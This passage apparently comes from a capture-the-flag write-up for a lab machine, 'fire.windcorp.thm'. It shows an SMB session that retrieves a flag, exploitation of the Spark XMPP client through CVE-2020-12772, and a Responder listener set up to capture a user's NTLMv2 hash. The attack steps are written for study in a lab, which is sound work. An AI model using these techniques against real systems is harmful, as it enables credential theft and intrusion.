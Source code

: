 ```
$ smbclient //fire.windcorp.thm/Shared -U lilyle --password REDACTED
Try "help" to get a list of possible commands.
smb: \> ls
  (...)
  Flag 1.txt                          A       45  Fri May  1 17:32:36 2020
  (...)
smb: \> get "Flag 1.txt"
```

# Initial Foothold


## Exploiting Spark XMPP

The `spark_2_8_3.deb` file is a strong hint for the next exploitation steps. Some quick google-fu leads us to **CVE-2020-12772** found by none other than the challenge creator.

https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md

We simply follow the steps explained in the repository:

{{< figure src="/media/ra-spark.png" width=200 title="Spark XMPP client" >}}
{{< figure src="/media/ra-spark2.png" width=500 title="Sending payload to target user" >}}

We setup our `responder` listener and wait for the user to kindly share his NTLMv2 hash.
```
$ sudo responder -I tun0
										 __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
				   |__|

     NBT-NS, LLMNR & MDNS Responder 3.0.0.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
	LLMNR                      [ON]
	NBT-NS                     [ON]
	DNS/MDNS                   [ON]

[+] Servers:
	HTTP server                [ON]
	HTTPS server               [ON]
	WPAD proxy                 [OFF]
	Auth proxy                 [OFF]
	SMB server                 [ON]
	Kerberos server            [ON]
	SQL server                 [ON]
	FTP server                 [ON]
	IMAP server                [ON]
	POP3 server                [ON]
	SMTP server                [ON]
	DNS server                 [ON]
	LDAP server                [ON]
	RDP server                 [ON]

[+] HTTP Options:
	Always serving EXE         [OFF]
	Serving EXE                [OFF]
	Serving HTML               [OFF]
```